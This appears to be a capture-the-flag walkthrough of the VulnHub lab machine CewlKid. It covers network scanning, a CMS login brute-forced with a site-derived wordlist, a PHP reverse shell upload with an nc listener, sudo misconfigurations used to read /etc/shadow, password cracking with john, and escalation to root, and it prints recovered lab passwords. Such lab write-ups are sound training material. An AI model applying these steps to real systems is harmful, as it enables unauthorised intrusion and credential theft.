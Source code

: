 # CewlKid: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:ac:dd:85       PCS Systemtechnik GmbH
192.168.56.121  08:00:27:d7:32:a1       PCS Systemtechnik GmbH
```

The ip address is `192.168.56.121`, let's scan it.


## 2.Enumeration

```bash
root@kali: nmap -p80,22,8080 -v -sC -sV -oN nmap.out 192.168.56.121

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:87:08:d7:ed:3a:9d:f6:be:91:7e:01:24:c8:74:c0 (RSA)
|   256 d6:22:68:01:2c:e2:c5:72:8e:1b:23:68:77:3e:10:7d (ECDSA)
|_  256 bb:91:85:49:86:fd:af:66:42:a3:f4:12:90:a3:31:6a (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Sitemagic CMS
|_http-title: Welcome - about us
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: E6E1C631192DE24218AC9348293A46CB
```

I begin with port 80 and there is just a simple apache web page, next we go for port `8080` and there is a CMS here

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c8c8f1a4-6e71-4d9d-917d-1f3fd88b54c0)


we immediately see the login page for the CMS and now we need credentials, as the name of the CTF suggests that it is a hint

i can see that `cewl` is the name of wordlist generator base on the site content, lets create a wordlist :

```bash
root@kali: cewl -w wordlist.txt -d 5 -m 4 http://192.168.56.121:8080
```

now we can check for admin login, just catch the request in burp and send it to intruder and wait for a different response length :


yes. we found the password for login.


## 3.Gaining Shell

Inside the panel we see and admin menu which we can upload file in it, just upload a php reverse shell and the load it :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e44ab129-72b0-43c1-84be-6513db3b7ad3)


start a listener and navigate to `http://192.168.56.121/files/image/rev.php` to get the shell :

```bash
root@kali: nc -nvlp 4444
listening on [any] 4444 ...

connect to [192.168.56.102] from (UNKNOWN) [192.168.56.121] 46618
Linux cewlkid 5.4.0-47-generic #51-Ubuntu SMP Fri Sep 4 19:50:52 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:45:39 up  1:55,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation (lorem)

Using `sudo -l` we find our sudo permissions and this is where we see that we can run `/usr/bin/cat` as user ipsum :

```bash
$ sudo -l
Matching Defaults entries for www-data on cewlkid:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on cewlkid:
    (ipsum : ipsum) NOPASSWD: /usr/bin/cat
```

let's check which files use ipsum has access to :

```bash
$ find / -user ipsum -type f 2>/dev/null
/var/www/example.com/html/.../nothing_to_see_here
```

let's see the content of it :

```bash
$ sudo -u ipsum /usr/bin/cat /var/www/example.com/html/.../nothing_to_see_here
aXBzdW0gOiBTcGVha1Blb3BsZTIyIQo=
bG9yZW0gOiBQZW9wbGVTcGVhazQ0IQo=
```

decode the strings :

```text
ipsum : SpeakPeople22!

lorem : PeopleSpeak44!
```

Change the user to lorem

## 5.Privilege Escalation (zerocewl)

 Now check sudo permissions again :

```bash
sudo -l
Matching Defaults entries for lorem on cewlkid:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lorem may run the following commands on cewlkid:
    (root : root) NOPASSWD: /usr/bin/base64 /etc/shadow
```

now we can get base64 encode of `/etc/shadow`, get it and merge it with `/etc/passwd` :

```bash
root@kali: unshadow passwd.txt shadow.txt > unshadow.txt
```

use the wordlist we generated earlier again :

```bash
john unshadow.txt --wordlist=wordlist.txt                
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PageMaker        (zerocewl)     
1g 0:00:00:00 DONE (2024-02-17 08:06) 3.125g/s 559.3p/s 2796c/s 2796C/s Follow..Language
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

yes we found another user password, Change user to `zerocewl`


## 6.Privilege Escalation (cewlbeans)

 Check the system with `pspy64` to monitor the processes :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/fa946de9-bfa4-4510-9c43-3c2b006303f4)


now we see plain credentials of user `cewlbeans`, change user to cewlbeans.

## 7.Privilege Escalation (root)

 Check for sudo permissions :

```bash
cewlbeans@cewlkid:/$ sudo -l
sudo -l
[sudo] password for cewlbeans: fondateurs

Matching Defaults entries for cewlbeans on cewlkid:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cewlbeans may run the following commands on cewlkid:
    (ALL : ALL) ALL
```

now we can freely switch to root :

```bash
cewlbeans@cewlkid:/$ sudo bash

root@cewlkid:~# cat root.txt
        ______  ___________    __    ____  __       __  ___  __   _______                    
       /      ||   ____\   \  /  \  /   / |  |     |  |/  / |  | |       \                   
      |  ,----'|  |__   \   \/    \/   /  |  |     |  '  /  |  | |  .--.  |                  
      |  |     |   __|   \            /   |  |     |    <   |  | |  |  |  |                  
      |  `----.|  |____   \    /\    /    |  `----.|  .  \  |  | |  '--'  |                  
       \______||_______|   \__/  \__/     |_______||__|\__\ |__| |_______/                   
                                                                                             
                  .______        ______     ______   .___________.                           
                  |   _  \      /  __  \   /  __  \  |           |                           
                  |  |_)  |    |  |  |  | |  |  |  | `---|  |----`                           
                  |      /     |  |  |  | |  |  |  |     |  |                                
                  |  |\  \----.|  `--'  | |  `--'  |     |  |                                
                  | _| `._____| \______/   \______/      |__|                                
                                                                                             
.______      .___  ___. ___   ___  __    __   ________  ____    __    ____  ______           
|   _  \     |   \/   | \  \ /  / |  |  |  | |       /  \   \  /  \  /   / /  __  \   ______ 
|  |_)  |    |  \  /  |  \  V  /  |  |__|  | `---/  /    \   \/    \/   / |  |  |  | |______|
|      /     |  |\/|  |   >   <   |   __   |    /  /      \            /  |  |  |  |  ______ 
|  |\  \----.|  |  |  |  /  .  \  |  |  |  |   /  /----.   \    /\    /   |  `--'  | |______|
| _| `._____||__|  |__| /__/ \__\ |__|  |__|  /________|    \__/  \__/     \______/          
RmxhZwo=
```

This is how you can finish this box :)










